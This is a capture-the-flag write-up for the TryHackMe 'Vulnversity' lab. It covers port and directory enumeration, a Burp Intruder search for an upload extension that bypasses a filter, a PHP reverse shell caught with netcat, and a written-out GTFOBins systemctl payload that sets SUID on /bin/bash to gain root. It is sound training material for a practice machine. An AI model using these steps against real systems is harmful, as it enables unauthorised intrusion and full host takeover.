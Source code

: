# Vulnversity - solution
- Link: https://tryhackme.com/room/vulnversity
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,139,445,3128,3333 <IP> -oN ports`

## Port 3333 (Apache http) - website recognition
- `gobuster dir -u http://<IP>:3333 -w /usr/share/wordlists/dirb/common.txt -o hidden_dir` to discover hidden directories
- Found `/internal`
- Found an input form on `http://<IP>:3333/internal`
- Tried to brute force that form with any possible file extension
- On browser:
  - Added FoxyProxy extension (`127.0.0.1:8080` as proxy)
- On Burpsuite:
  - `Proxy` -> `Intercept on`
- On browser:
  - Started FoxyProxy 
  - Uploaded a random file on the `http://<IP>:3333/internal` input form
- On Burpsuite:
  - Sent to Intruder the error message 
  - On `Intruder` window:
    - Removed all the `$` characters and added them only between `.png` (uploaded a .png file in my case)
  - On `Payload` window:
    - `Load` -> `/usr/share/seclists/Discovery/Web-Content/raft-small-extensions-lowercase.txt`
    - Unchecked `URL-encode these characters` option
    - Started the attack
    - Found `.phtml` as extension with a different response lenght, so I could exploit this vulnerability uploading a `.phtml` file 

## Exploitation
- Downloaded `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 
- Set my own IP and a random port in that code
- Uploaded the file
- `nc -lvnp <port>` to make NetCat listen on the specified port
- Visited `http://<IP>:3333/internal/upload` and run the uploaded file (this hidden subdirectory should appear if we run `gobuster dir -u http://<IP>:3333/internal -w /usr/share/wordlists/dirb/common.txt -o hidden_dir`)
- Inside the reverse shell:
  - `ls`
  - `cd /home/bill`
  - `cat user.txt`
    - Found the `USER FLAG`
  
## Privileges escalation
- Inside the reverse shell:
  - Couldn't access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `systemctl`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- On another window, modified:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
to
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
- Inside the reverse shell:
  - Pasted that modified code
  - Became root
  - `cd /root`
  - `cat root.txt`
    - Found the `ROOT FLAG`
